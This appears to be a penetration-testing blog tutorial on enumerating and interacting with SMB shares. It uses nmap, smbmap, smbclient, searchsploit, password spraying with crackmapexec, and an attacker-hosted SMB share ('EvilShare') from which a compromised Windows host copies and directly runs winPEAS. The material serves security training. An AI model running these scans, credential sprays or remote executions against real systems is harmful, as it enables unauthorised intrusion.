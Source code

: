 # SMB Enumeration & Interaction


# What is SMB?
{{< admonition type=info open=true >}}
Server Message Block (SMB)
{{< /admonition >}}
SMB has a pretty bad rep in regards to security espically with the recent, 2017, infamous exploit EternalBlue [CVE-2017-0144](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144).

But how can you find it, exploit it, and even use it to help with a red team engagement? Lets find out.
## Enumerating
Before you can do anything you need to discover shares on the network. From here you can try to see if any shares allow anonymous access or what restricted share exists. SMB can also disclose information about the host such as the operating system and current version.
### nmap
we can use nmap to scan across a network to try discover hosts with port 139 which is for the NetBIOS protocol which is a session layer allowing computers on a local network to talk with one another and port 445 for SMB.
{{< admonition type=note open=true >}}
It should be noted that SMB can work without NetBIOS but it is usually enabled for backwards compatibility.
{{< /admonition >}}
We've been tasked to complete a peneration test on the /24 network located at 10.10.10.1 using nmap to find smb will look like this:
```bash
nmap -p 139,445 10.10.10.1/24
```
This will return back a list of hosts that have those ports open.

### Discovering file sharing
Now we have a list of hosts with shares lets see if we can access them via anonymous sessions.
#### smbmap
[smbmap](https://github.com/ShawnDEvans/smbmap) is a great tool for listing out different shares on an SMB server to do so is as easy as passing it the IP address of the host.
```bash
smbmap -H 10.10.10.23
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.23...
[+] IP: 10.10.10.23:445	Name: hack.me
	Disk                                Permissions	    Comment
	----                                -----------	    -------
	ADMIN$                              NO ACCESS	    Remote Admin
	C$                                  NO ACCESS	    Default share
	IPC$                                NO ACCESS	    Remote IPC
	Users                               READ, WRITE
```
From this output we can see there exists several shares, *ADMIN*, *C*, *IPC* and *Users*. We can see via our anonymous access, we never gave smbmap a username and password, that we have read and write access to the *Users* share.

smbmap supports loads more features including specifying usernames and passwords and even executing commands!
#### smbclient
Another tool I really like to use is smbclient which is part of the fantastic [impacket](https://github.com/SecureAuthCorp/impacket) library.

To list share it's as simple as this:
```bash
echo exit | smbclient -L 10.10.10.23
```
{{< admonition type=note open=true >}}
Piping exit to smb client closes the password request as we're only looking for anonymous sessions at the moment
{{< /admonition >}}
You should recieve an output similar to smbmap. Again smbclient has many more features than just listing the shares. We will use it further on in this article for actually connecting to the share and interacting with it.

### Discovering SMB vulnrabilties
{{< figure src="https://thumbs.gfycat.com/JitteryPlasticBactrian-size_restricted.gif" title="nmap cameo appearence" >}}
There's a wealth of vulnrabilites with SMB and a lot of imformation out there on what version has which exploit. To quickly discover potentially exploits I like two methods.

#### Searchsploit
Searchsploit is a handy little cli tool. Parsing searchsploit a software and a version will return a list of known exploits.

```bash
searchsploit smb 2.1
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
MikroTik RouterOS < 6.41.3/6.42rc27 - SMB Buf | hardware/remote/44290.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
A feature I love is ability to quickly *mirror* the result to my working directory. In the above snippet I an see a python file has been found. I can quickly copy it with the `-m` flag or if I want to quickly examine it `-x`.

```bash
searchspoit -m 44290
```

#### nmap scripting engine
Using nmaps scripting engine we can have it run scripts in hopes to discover potential vulnrabilties and get a wealth of information on them. Using a `*` is a good trick here to run all scripts related to smb vulns.

```bash
nmap -p 139,445 --script smb-vuln* 10.10.10.23
```

{{< admonition type=warning open=true >}}
We should avoid the usage of the `unsafe=1` flag with nmap as it's almost guerenteed to cause the host to crash.
{{< /admonition >}}

## Gaining access
If I find some creds in LDAP or via someother means and prehaps some potential users names. Which could be found from company email address or looking on website such as linked in for employees of a company. We could create a username and password lists. Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) I can quickly spray all permutations of usernames and passwords to see if i can gain authenticated access to shares.

```bash
crackmapexec smb 10.10.10.23 -u user.list -p password.list
```
## Interacting with a SMB share
As privously mentioned smbclient has additional features those include actually interacting with shares.

```bash
smbclient \\\\10.10.10.23\\Users
smb:\>
```
I can now use normal commands such as `cd` `ls` and `get` to download a remote file or `put` to upload a file from my working directory to the share.


## Using your own SMB share to transfer files to a windows host
Okay, you've establised a foothold on a windows machine and now you want to copy over your tools such as [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to discover low hanging fruit that could esculate our privileges. We can use the hosts `cmd.exe` `copy` command to grab files from our own share.

[impacket](https://github.com/SecureAuthCorp/impacket) comes with it's own smbserver. Lets create a share on our Kali machine by spesifying the share name and the directory to mount to it.

```bash
smbserver EvilShare /opt/tools
```

Now lets copy over winPEAS from the share where the IP address is the IP of our Kali machine.

```dos
C:\> copy \\10.10.11.2\EvilShare\winPEAS.exe .
```

We can also directly execute the binary straight from the share.
```dos
C:\>  \\10.10.11.2\EvilShare\winPEAS.exe
```

## In Summery
SMB might not always be exploitable but it can still be a power tool for not only extracting data from a host but we can also use it for transfering our own data from our local machine to a windows host.

I think you should always get excited if you see smb is open on a machine and it is always a good place to start enumerating futher. I hope this post helps facilitate that.

